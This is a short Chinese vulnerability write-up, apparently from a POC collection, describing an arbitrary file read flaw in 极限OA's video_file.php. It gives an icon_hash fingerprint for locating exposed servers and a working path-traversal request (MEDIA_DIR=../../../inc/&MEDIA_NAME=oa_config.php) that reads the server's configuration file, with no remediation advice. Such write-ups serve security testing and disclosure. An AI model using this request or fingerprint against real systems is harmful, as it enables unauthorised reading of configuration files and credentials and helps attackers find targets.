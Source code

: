 # 极限OA video_file.php 任意文件读取漏洞

# 极限OA video_file.php 任意文件读取漏洞

## 漏洞描述

极限OA video_file.php存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

```
极限OA
```

## 网络测绘

```
icon_hash="1967132225"
```

## 漏洞复现

登录页面

![image-20220715111126095](/images/202207151111176.png)

验证POC

```
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php
```

![image-20220715111241562](/images/202207151112653.png)

